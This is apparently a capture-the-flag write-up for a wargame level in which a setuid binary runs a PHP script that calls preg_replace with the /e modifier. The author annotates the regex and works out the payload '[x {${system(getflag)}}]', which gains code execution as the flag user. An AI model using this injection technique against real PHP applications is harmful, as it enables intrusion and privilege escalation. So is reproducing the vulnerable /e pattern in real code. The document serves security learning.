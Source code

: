 `ls -l` </br>
gives </br>
`-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06`    </br>
`-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php`</br>

`./level06`</br>
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4</br>
level06 seems to be executing level06.php

`./level06.php` </br>
PHP Notice:  Undefined offset: 1 in /home/user/level06/level06.php on line 5</br>
PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5</br>
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4</br>


`./level06 hello` </br>
PHP Warning:  file_get_contents(hello): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4</br>
We seems to need a file as argument.


```php
#!/usr/bin/php
<?php
    function y($m) { 
        $m = preg_replace("/\./", " x ", $m); 
        $m = preg_replace("/@/", " y", $m); 
        return $m; 
    }
    // manipule argv 1
    function x($y, $z) {
        // read file y and put content into string a
        $a = file_get_contents($y); 
        // first / indicates start of regular expression
        // second / indicates end of it, and start of expression flags
        // expression flag here: e , known for security problem
        // The e modifier is a PHP-specific modifier that triggers PHP 
        // to run the resulting string as PHP code.
        // the '/e' modifier actually allows us to evaluate the second argument as a PHP expression.
        // calls the function eval()
        // programms call function y() here thanks to modifier e
        // () Capturing group. Groups multiply tokens together and creates a capture group
        // for extracting a substring or using a backreference
        // \1 - it means the first capturing group in the matched expression. 
        // \n would be the nth capturing group. (Note that \0 would be whole match). 
        // In many engines, the upperlimit for n is 9, but some support up to 99 as well.
        // When used in regex like (a|b)\1, it means that after a or b, the next character 
        // should be the first captured group, which is a or b so the regex here would 
        // match aa or bb.
        // \[ matches a [ character
        // x matches a x character and a space one
        // . matches any character except line breaks
        // * matches 0 or more of the preceding token
        // \] matches a ] character

        // \[x (.*)\] first group --> [x ] or [x coucou] matches
        // .* second group, given as parameter to function y --> [x @.coucou] changes @ and . in y function
        // [x@ @.coucou] don't match first group, so it doesn't work
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        // replace [ by (
        $a = preg_replace("/\[/", "(", $a);
        // replace ] by )
        $a = preg_replace("/\]/", ")", $a);
        return $a; 
    }
    // y = argv 1
    // z = argv 2
    $r = x($argv[1], $argv[2]); 
    print $r;
?>
```

https://www.yeahhub.com/code-execution-preg_replace-php-function-exploitation/ </br>
https://www.php.net/manual/en/language.types.string.php </br>

So we need to find a syntax matching the regex, so the second group (.* which stands for one or more of any character except line breaks) can be sent to function y, in which the string will be transformed (or not) then returned, so as to be executed by the e modifier.

Struggled **a lot** to find good syntax, tried: </br>
`echo '[x $(getflag)]' > /tmp/flag && ./level06 /tmp/flag` </br>
`echo '[x ${system(getflag)}]' > /tmp/flag && ./level06 /tmp/flag` </br>
and a lot of variants of it. 

To finally come accross the good syntax: `echo '[x {${system(getflag)}}]' > /tmp/flag && ./level06 /tmp/flag`

`echo "This is the value of the var named $name: {${$name}}";` </br>
https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing.complex </br>
https://www.voidsecurity.in/2012/12/exploit-exercise-php-pregreplace.html </br>
